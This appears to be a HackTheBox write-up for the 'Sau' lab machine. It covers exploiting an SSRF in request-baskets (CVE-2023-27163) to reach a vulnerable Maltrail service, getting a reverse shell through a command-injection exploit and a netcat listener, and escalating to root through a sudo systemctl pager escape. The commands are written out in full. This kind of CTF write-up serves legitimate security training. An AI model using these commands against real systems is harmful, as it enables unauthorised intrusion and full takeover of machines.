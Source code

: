 ```yaml
---
layout: post
title: Sau - HackTheBox
categories:
- HackTheBox
tags:
- SSRF
- Linux
- CVE-2023-27163
- request-baskets
- Maltrail
- Command Injection
- systemctl
date: 2023-09-2
description: Sau is a machine that has a vulnerable version of the service request-baskets. The vulnerability presented is a Server Side Request Forgery that allows us to perform requests to internal services not exposed in the machine. The hidden service is a vulnerable version of Maltrail which gives us OS command injection giving access to the machine. In the end, to escalate privileges we used a misconfigured command in sudoers that uses systemctl status pager to get a shell as root.
summary: Sau is a machine that has a vulnerable version of the service request-baskets. The vulnerability presented is a Server Side Request Forgery that allows us to perform requests to internal services not exposed in the machine. The hidden service is a vulnerable version of Maltrail which gives us OS command injection giving access to the machine. In the end, to escalate privileges we used a misconfigured command in sudoers that uses systemctl status pager to get a shell as root.
cover:
  image: images/machine_img.png
---
```





## Recon

We found ports 22, 80 and 55555 running on the target machine using `nmap -sC -sV -oN nmap_scan IP`.
Port 55555 seems to be running a web application and port 80 can't be reached.

```

PORT      STATE    SERVICE VERSION                                                            
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                      
| ssh-hostkey:                                                                                
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                                               
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                                              
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                                            
80/tcp    filtered http                                                                       
55555/tcp open     unknown                                                                    
| fingerprint-strings:                                                                        
|   FourOhFourRequest:                                                                        
|     HTTP/1.0 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     X-Content-Type-Options: nosniff                                                         
|     Date: Thu, 28 Sep 2023 17:47:30 GMT                                                     
|     Content-Length: 75                                                                      
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$                 
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request                                                                
|     Content-Type: text/plain; charset=utf-8                                                 
|     Connection: close                                                                       
|     Request                                                                                 
|   GetRequest:                                                                               
|     HTTP/1.0 302 Found                                                                      
|     Content-Type: text/html; charset=utf-8                                                  
|     Location: /web                                                                          
|     Date: Thu, 28 Sep 2023 17:47:02 GMT                                                     
|     Content-Length: 27                                                                      
|     href="/web">Found</a>.                                                                  
|   HTTPOptions:                                                                              
|     HTTP/1.0 200 OK                                                                         
|     Allow: GET, OPTIONS                                                                     
|     Date: Thu, 28 Sep 2023 17:47:03 GMT                                                                                    
|_    Content-Length: 0  


```

It seems like a web application that allow us to inspect http requests called requests-basket and has a github repo: https://github.com/darklynx/request-baskets. It is in the version 1.2.1.

![](/images/sau/port_55555.png)

Looking for exploits for that service(request-baskets) and that version(1.2.1) we found the CVE-2023-27163:

- https://www.exploit-db.com/exploits/51675
- https://github.com/entr0pie/CVE-2023-27163
- https://nvd.nist.gov/vuln/detail/CVE-2023-27163

This vulnerability is a [Server Side Request Forger]y(https://portswigger.net/web-security/ssrf) which allow us to make requests to internal hosts not exposed, as if we were the vulnerable server.

We run the script present in the [repo](https://github.com/entr0pie/CVE-2023-27163):

```shell
./CVE-2023-27163.sh http://10.10.11.224:55555 http://localhost:80
```

![](/images/sau/ssrf.png)

This script will create a proxy basket as if it is the internal service. This means that, the generated basket, for example, http://10.10.11.224:55555/zwnush/ will be the same as accessing the machine port 80, http://localhost:80. Note: The CSV and javascript is not loaded because it tries to load from the basket and it does not have it.


## Foothold

The service that it seems running in the port 80 seems like the service Maltrail in the version (v0.53).
The searching for an exploit for that version in Google, the first link takes us to an [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) that gives us OS command injection.

We open a netcat listener `nc -lvnp 1234` and use the exploit `python3 exploit.py 10.10.14.199 1234 http://10.10.11.224:55555/zwnush/login` targeting the login page of maltrail. We get a shell as the user puma and looking in the passwd file we are the only normal user besides root. Home directory gives us the first flag.

![](/images/sau/login.png)


## Privilege Escalation

Here we want to try to upgrade to a more [interactive shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
To do it, we first check for the presence of python in the machine with `which python3` then:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
(CTRL + Z)
stty raw -echo 
(ENTER)
fg
(ENTER)
(ENTER)
export TERM=tmux-256color
```

To have a better coverage of what we can do in the machine as the user puma we send [linpeas](https://linpeas.sh/) to the target machine and execute it.
We found an unusual entry in sudoers file:

```shell
User puma may run the following commands on sau:                                                                                                                                              
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

This allow us to get the status of service running in the machine. However as explain in the [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/) systemctl status uses a pager to show the output of the service. The pager allows to run commands if we type a exclamation mark: `!whoami`. In our case, since we are running the command already as root, `sudo /usr/bin/systemctl status trail.service`, we just do `!sh` and we get a shell inside pager as root and get the root flag.

